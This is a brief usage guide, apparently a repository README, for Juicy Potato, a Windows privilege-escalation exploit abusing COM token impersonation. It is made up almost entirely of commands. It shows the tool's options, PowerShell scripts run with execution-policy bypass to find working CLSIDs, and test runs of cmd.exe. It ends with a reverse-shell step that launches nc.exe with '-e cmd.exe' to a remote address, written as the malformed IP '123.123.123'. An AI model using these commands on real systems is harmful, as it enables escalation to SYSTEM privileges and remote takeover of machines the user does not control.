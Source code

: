 # Juicy Potato (abusing the golden privileges)

## usage

```
T:\>JuicyPotato.exe
JuicyPotato v0.1

Mandatory args:
-t createprocess call: <t> CreateProcessWithTokenW, <u> CreateProcessAsUser, <*> try both
-p <program>: program to launch
-l <port>: COM server listen port


Optional args:
-m <ip>: COM server listen address (default 127.0.0.1)
-a <argument>: command line argument to pass to program (default NULL)
-k <ip>: RPC server ip address (default 127.0.0.1)
-n <port>: RPC server listen port (default 135)
-c <{clsid}>: CLSID (default BITS:{4991d34b-80a1-4291-83b6-3328366b9097})
-z only test CLSID and print token's user
```

## Checking CLSIDs
### run first
```
powershell.exe -ExecutionPolicy Bypass -File "C:\Temp\Join-Object.ps1"
```
does not provide direct output. Make sure there are no errors.

### get list CLSIDs
```
powershell.exe -ExecutionPolicy Bypass -File "C:\Temp\GetCLSID.ps1"
```
Verify following files are generated:<br>
CLSIDs.csv: List of CLSIDs and APIDs in CSV format.<br>
CLSID.list: List of CLSIDs only.


### checking CLSIDs
```
.\get.bat
```
result will saved on kaz.log

### or

### Check working CLSID using -c parameter
```
method 1
.\jus.exe -c "{list-xxx-from-xxx-kaz.log}" -t * -l 1337 -z

method 2
.\jus.exe -c "{list-xxx-from-xxx-kaz.log}" -p "c:\windows\system32\cmd.exe" -a "/c whoami" -l 1337 -t *
```

### Reverse Shell
```
.\jus.exe -l 1337 -c "{working-xxx-xxx-xxx-CLSID}" -p c:\windows\system32\cmd.exe -a "/c C:\Temp\nc.exe -t -e C:\Windows\System32\cmd.exe 123.123.123 6969" -t *
```
































